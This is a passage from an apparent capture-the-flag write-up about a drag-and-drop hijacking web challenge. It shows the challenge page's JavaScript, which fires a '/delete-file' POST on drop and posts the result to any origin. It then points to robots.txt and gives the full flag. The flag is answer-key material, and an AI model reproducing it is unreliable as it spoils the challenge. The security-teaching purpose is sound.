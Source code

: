 ```
        dropZone.addEventListener('drop', async (event) => {
            event.preventDefault();
            
            draggable.style.display = 'none';
            dropZone.style.color = '#e74c3c'; 
            
            try {
                const response = await fetch('/delete-file', { method: 'POST' });
                const result = await response.json();
                window.parent.postMessage(result, '*');
            } catch (error) {
                console.error("Could not send request to server.");
            }
        });
    </script>
</body>
</html>
```

2) Next part of the flag at `robots.txt`

Second part of the flag: `{"flag":"4nd_dr0p_h1j4ck3d_succ3ssfully}"}`

<img width="759" height="284" alt="image" src="https://github.com/user-attachments/assets/13ad3b65-c07f-4002-be32-2331625cb9b8" />

## Flag

```
n3xt{dr4g_4nd_dr0p_h1j4ck3d_succ3ssfully}
```
